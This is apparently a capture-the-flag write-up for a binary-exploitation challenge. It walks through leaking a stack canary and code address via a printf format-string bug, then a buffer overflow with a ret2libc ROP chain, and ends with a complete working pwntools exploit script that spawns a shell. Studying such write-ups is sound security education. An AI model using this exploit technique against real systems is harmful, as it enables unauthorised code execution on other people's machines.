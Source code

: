 # Reverse

Firstly we run `checksec` on the binary.

![aa](<buy-coofeeImages/Pasted image 20240929131928.png>)

We see that we have all the important protections enabled. Quite scarry at first sight right?

We load up the binary in Ghidra and the execution flow reaches this function, `coffee()`

![aa](<buy-coofeeImages/Pasted image 20240929132209.png>)

We see that indeed we have a canary and a buffer of 24 bytes on the stack. But on line `15` we see the vulnerability an `fread()` call that reads up to 80 characters in the buffer (including null bytes).

# Pwning

## Bypass Canary and PIE

How do we bypass the stack canary though to redirect the execution flow? Only if we could leak things from the stack. 

Luckily we can, on line 12 there is a `printf()` Format String Vulnerability, this allows us to leak contents from the stack including the canary.

By using `%n$lX` we can print the n-th argument passed to `printf()`. Let's look at the calling convention on `x86-64`.
![aa](<buy-coofeeImages/Pasted image 20240929133412.png>)

We see that on Linux we pass the parameters in the following order:
- RDI
- RSI
- RDX
- RCX
- R8
- R9
- Stack

So **RDI** will be at offset 0, **RSI** at offset 1 and so on, this means that the first argument from the stack is at offset 6. Let's take a look at the stack when we enter the `printf()` function.

![aa](<buy-coofeeImages/Pasted image 20240929133657.png>)

We see that at `rsp+0x08` we have the 6th argument passed to `printf()`, our string. At `rsp+32` which is the `9th` argument passed to `printf()` we have the stack canary. 
Moreover at `rbp+0x08` or at `rsp+48` or the `11th` argument on the stack we have the return address of the `printf()` call, which returns in main, in `main+78` to be more specific.

So by supplying `%9$lX %11$lX` as input to the `printf()` function we will get these two values separated by a space.

```
[*] Output  FA221527F3AC6B00 56555153C332
```

Now we can safely overwrite the return address and redirect the execution flow. We can perform a `ret2libc` attack. The simplest way to do so is to call `system()` with the argument of `/bin/sh`. 

Following the syscall convention of x86-64 we need to pass the address of `/bin/sh`(the **libc** contains the string `/bin/sh`) by the **RDI** register. 

## Ret2libc

We use `ROPgadget` to find the `pop rdi ; ret` and we find one.
![aa](<buy-coofeeImages/Pasted image 20240929134909.png>)
We cannot just jump to the gadget's location because remember the binary is compiled as **PIE** enabled. So we need to calculate where to jump based on the leaked `main+78` address and the offset between `main+78` and the gadget in the code.

```python
#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
```

The script also outputs the address of the `printf()` function from libc and we also received the library used by the challenge (2.31). Using these two we can pinpoint the version used by the binary exactly using **libc-database**. In this case it is `libc6_2.31-0ubuntu9.9_amd64`.

![aa](<buy-coofeeImages/Pasted image 20240929140201.png>)

From here we calculate the offsets to the string `/bin/sh` and `system()`.
```python
system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D
```

## Exploit
We chain everything together and let's do not forget of the extra `ret` needed for the `MOVAPS` instruction.

```python
from pwn import *
import logging

context.log_level='DEBUG'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

gdb_script = f"""
"""

io = gdb.debug('./buy_me_coffee_patched', gdbscript = gdb_script)
#io = remote("34.159.156.124", 32123)

output = io.recvuntil('$')

io.sendline('%9$lX %11$lX') # 9 canary; 11 main+78

output = io.clean(timeout=1)

log.info("Output " + output.decode())
log.success("Canary: " + output.decode().split(' ')[1])
log.success("Main78:" + output.decode().split('W')[0].split(' ')[2])
log.success("Code base: " + str(hex(int(output.decode().split('W')[0].split(' ')[2], 16) - 0x1332)))

canary = int(output.decode().split(' ')[1], 16)
main78 = int(output.decode().split('W')[0].split(' ')[2], 16)
  
printfAddr = int(output.decode().split(' ')[5].split('\n')[0], 16)
log.success("Printf address: "+ output.decode().split(' ')[5].split('\n')[0])

system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D

#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
just_a_ret = main78 - 0x10c

payload = b'A' * 24
payload += p64(canary)
payload += b'B' * 8     #skip saved RBP

payload += p64(just_a_ret)
payload += p64(rop_gadget_addr)
payload += p64(bin_sh_addr)
payload += p64(system_addr)

io.sendline(payload)
io.interactive()
```

## Flag

Last we run it on remote and get the flag! :)
![aa](buy-coofeeImages/Pasted image 20240929142109.png>)
